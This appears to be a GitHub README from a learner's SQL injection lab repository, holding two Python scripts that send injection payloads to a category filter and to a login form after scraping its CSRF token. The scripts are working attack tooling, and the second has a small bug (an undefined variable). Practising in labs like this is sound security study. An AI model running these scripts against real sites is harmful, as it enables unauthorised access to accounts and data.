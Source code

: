 # SQL Injection Labs Repository

This repository contains Python scripts for various SQL injection labs I am working on while learning SQL injection techniques using Burp Suite. Each lab has its own script, and this README will be updated as I progress through the labs.

# Labs Overview

## Lab 1: Basic SQL Injection

- **Description**: This lab demonstrates a basic SQL injection attack by exploiting a vulnerable URL parameter.
- **Script**: `sql_injection1.py`
- **Status**: Completed

```bash

python3 script.py <url> <payload>

import requests
import sys 
import urllib

proxies={'http':"http://127.0.0.1:8080",'https':"https://127.0.0.1:8080"}

def exploit_sql(url,payload):
    uri="/filter?category="
    r=requests.get(url+uri+payload,verify=False,proxies=proxies)
    if "cat grin" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url=sys.argv[1].strip() 
        payload=sys.argv[2].strip()
    except IndexError:
        print("usage is not correct ")
    if exploit_sql(url,payload):
        print(" the sql injection is complete")
    else:
        print("there is error in the sql injection") 
```

## Lab 2: SQL Injection with CSRF Token

- **Description**: This lab demonstrates SQL injection while handling CSRF tokens. It retrieves the CSRF token from the webpage and uses it to attempt a login with an SQL payload.
- **Script**: `sql_injection2.py`
- **Status**: Completed
```bash

python3 python3 labX_script.py <url> <sql_payload>

import sys
import requests
import urllib3
from bs4 import BeautifulSoup 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies= {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}

def get_csrf_token(s,url):
    res = s.get(url,verify=False,proxies=proxies)
    soup = BeautifulSoup(res.text,'html.parser')
    csrf=soup.find("input")["value"]
    return csrf

def exploit_sqli(s,url,payload):
    csrf=get_csrf_token(s,url)
    data={"csrf":csrf,"username":payload,"password":"12345678"}
    r=s.post(url,data=data,verify=False,proxies=proxies)
    ras=r.text
    if "log out" in ras:
        return True
    else:
        return False


if __name__== "__main__":
    try:
        url=sys.argv[1].strip()
        sqli_payload=sys.argv[2].strip()
    except IndexError:
        print("use the below bash command on your terminal")
        print("use python3 file.py <url> <sql payload>")
    s=requests.Session()
    if exploit_sqli(s,url,payload):
        print("the sql injetion is successful we have logged in")
    else:
        print("the sql injection is not successful we are not logged in")

```


#### Requirements

- pip install requests beautifulsoup4





# Disclaimer

- These scripts are intended for educational purposes only. Use them responsibly and only on applications you own or have explicit permission to test.
